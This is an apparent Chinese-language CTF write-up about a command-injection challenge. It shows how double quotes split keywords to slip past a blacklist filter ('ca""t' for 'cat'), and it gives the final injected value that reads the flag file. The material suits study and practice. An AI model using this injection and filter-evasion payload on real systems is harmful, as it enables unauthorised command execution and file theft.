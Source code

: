 ### 关键字+双引号绕过

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/683daaba58cb8da5c8259042.png)

默认给出了 `.`，点击浏览看输出格式应该是执行了 `ls`

![](https://pic1.imgdb.cn/item/683daad958cb8da5c825904c.png)

先 fuzz 测试

![](https://pic1.imgdb.cn/item/6848d9fc58cb8da5c8426c88.png)

发现双引号没有过滤，那么可以用双引号绕过

```sh
ca""t == cat
```

![](https://pic1.imgdb.cn/item/6848dbc958cb8da5c8428bf9.png)

后续参考下一节 TAB

```
&	ca""t	/fl""ag
```

![](https://pic1.imgdb.cn/item/6848dcdd58cb8da5c842a3cd.png)

